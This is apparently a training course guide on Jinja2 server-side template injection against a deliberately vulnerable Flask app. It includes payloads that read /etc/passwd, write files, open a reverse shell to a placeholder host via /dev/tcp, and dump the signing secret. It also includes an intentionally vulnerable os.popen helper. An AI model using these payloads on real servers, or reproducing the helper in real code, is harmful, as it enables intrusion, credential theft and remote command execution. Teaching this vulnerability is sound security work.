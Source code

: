 # Server side template injection

This is the course guide for server-side template injection.

Template engines are widely used by web applications to present dynamic data via web pages and emails. Unsafely embedding user input in templates enables Server-Side Template Injection, a frequently critical vulnerability that is extremely easy to mistake for Cross-Site Scripting (XSS), or miss entirely. Unlike XSS, Template Injection can be used to directly attack web servers' internals and often obtain Remote Code Execution (RCE), turning every vulnerable application into a potential pivot point.

Follow the full source to find how to discover this vulnerability and how to determine the templating engine
that is being used by the application.

[full source here](https://portswigger.net/blog/server-side-template-injection)

### Objective 

* Use template injection to read the flask "configurations" such as the secret for signing JWT tokens
* Use template injection to envoke a local function to leverage RCE

#### Semi spoiler!

Included [here](https://github.com/defdeveu/defdev-app/tree/master/course-guide/server-side-template-injection/report.html) is the scan report of a Burp intruder scan on the target. Use this scan report to pinpoint the exact location of the vulnerability.


#### This works for python 2

Jinja2 - Read remote file
```
# ''.__class__.__mro__[2].__subclasses__() = File class
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
```

Jinja2 - Write into remote file
```
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/var/www/html/myflaskapp/hello.txt', 'w').write('Hello here !') }}
```
Jinja2 - Remote Code Execution via reverse shell
Listen for connexion
```
nv -lnvp 8000
```

Inject this template
```
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evilconfig.cfg', 'w').write('from subprocess import check_output\n\nRUNCMD = check_output\n') }} # evil config
{{ config.from_pyfile('/tmp/evilconfig.cfg') }}  # load the evil config
{{ config['RUNCMD']('bash -i >& /dev/tcp/xx.xx.xx.xx/8000 0>&1',shell=True) }} # connect to evil host
```

#### However we use python3 

In this scenario we use python3 to leverage the attack so the method as mentioned above is no longer
valid. We need to find other ways for exploitation. Even without nice methods to iterate the subclasses 
as with python3 we can still get a lot of interesting information about the system.

try to inject:

```
{{ config.items() }}
```

Here we find al the different configurations of the target. Amongst others we find the 

```
('SECRET_KEY', 'random')
```

This key is used to sign the JWT tokens and can iie be used to gain unauthorized access to the
application.

#### Spoiler - exploitation of the target.

The developer of this application thought it was a good idea to have a generic function for his
monitoring and make this function callable by the templating engine, this way he could easilly utilize 
system commands on a easy and secure way (or so he thought) to monitor the system.

We can now abuse the template expression to invoke this command with our own 
system command injection like

```
http://0.0.0.0:8081/{{system_call('netcat listener pwn')}}
```

Here follows the code that is responsible for the vulnerability:

```
@app.context_processor
def utility_processor():
    def system_call(command):
        output = os.popen(command).read()
        return output
    return dict(system_call=system_call)
```
